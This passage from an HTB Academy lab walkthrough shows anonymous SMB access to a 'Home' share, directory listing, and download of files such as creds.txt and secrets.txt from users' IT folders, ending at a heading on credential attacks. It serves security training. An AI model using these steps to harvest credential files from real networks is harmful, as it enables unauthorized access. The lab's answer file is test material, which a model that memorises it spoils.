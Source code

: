**Discovery**: `Home` share available for anonymous access

### SMB Share Exploration
```bash
# HTB Academy Home share access and exploration
smbclient -N //10.129.112.104/Home

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 21 22:18:21 2022
  ..                                  D        0  Thu Apr 21 22:18:21 2022
  HR                                  D        0  Thu Apr 21 21:04:39 2022
  IT                                  D        0  Thu Apr 21 21:11:44 2022
  OPS                                 D        0  Thu Apr 21 21:05:10 2022
  Projects                            D        0  Thu Apr 21 21:04:48 2022

		7706623 blocks of size 4096. 3168554 blocks available
```

**Discovery**: Multiple department directories including `IT` department

### User File Collection from IT Department
```bash
# HTB Academy IT department file collection
smb: \> cd IT\Fiona\
smb: \IT\Fiona\> get creds.txt 
getting file \IT\Fiona\creds.txt of size 118 as creds.txt (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)

smb: \IT\Fiona\> cd ../Simon\
smb: \IT\Simon\> get random.txt
getting file \IT\Simon\random.txt of size 94 as random.txt (2.4 KiloBytes/sec) (average 2.6 KiloBytes/sec)

smb: \IT\Simon\> cd ../John\
smb: \IT\John\> prompt
smb: \IT\John\> mget *
getting file \IT\John\information.txt of size 101 as information.txt (2.5 KiloBytes/sec) (average 2.6 KiloBytes/sec)
getting file \IT\John\notes.txt of size 164 as notes.txt (4.0 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \IT\John\secrets.txt of size 99 as secrets.txt (2.4 KiloBytes/sec) (average 2.8 KiloBytes/sec)
```

**Files Retrieved**:
- From Simon: `random.txt` ✅ (Question 1 answer)
- From Fiona: `creds.txt`
- From John: `information.txt`, `notes.txt`, `secrets.txt`

---

## 🔐 Phase 3: Custom Wordlist Creation & Credential Attacks
